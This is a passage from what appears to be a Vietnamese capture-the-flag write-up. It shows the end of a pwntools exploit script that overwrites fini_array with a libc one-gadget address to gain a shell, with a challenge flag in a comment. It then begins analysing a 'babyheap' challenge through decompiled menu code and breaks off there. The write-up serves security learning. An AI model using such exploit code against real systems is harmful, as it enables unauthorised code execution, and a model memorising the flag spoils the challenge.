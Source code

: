 ```
            r.sendlineafter(b"> ", b"aaaaaaa")
            r.sendlineafter(b"> ", b"aaaaaaa")

            r.sendlineafter(b"> ", hex(l_addr - 8).encode())
            oneoff = 0xebd38
            r.sendlineafter(b"> ", p64(libc_base + oneoff) + p64(l_addr - 8 - fini_array_off))
            print("dd")
            k = b""
            k = r.recvuntil(b" =========", timeout=1)
            if k == b"":
                r.interactive()
            print(k)
            r.sendline(b"ls")
            r.recvline()
            print("yee")
            r.interactive()
            # TSC{YoU_KnOw_h0w_7h3_b4bY_st@(k_w0rk$_!!!}
        except:
            try:
                r.close()
            except:
                pass
            pass


```



-----------

##  babyheap


![image](https://hackmd.io/_uploads/B1t_m6uPJl.png)


checksec : 

![image](https://hackmd.io/_uploads/rk4wQa_DJl.png)


### Analys 

- ta sẽ có 4 option chính ở bài này

```c 
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    menu();
    read(0, buf, 8uLL);
    switch ( atoi(buf) )
    {
      case 1:
        add();
        break;
      case 2:
        delete();
        break;
```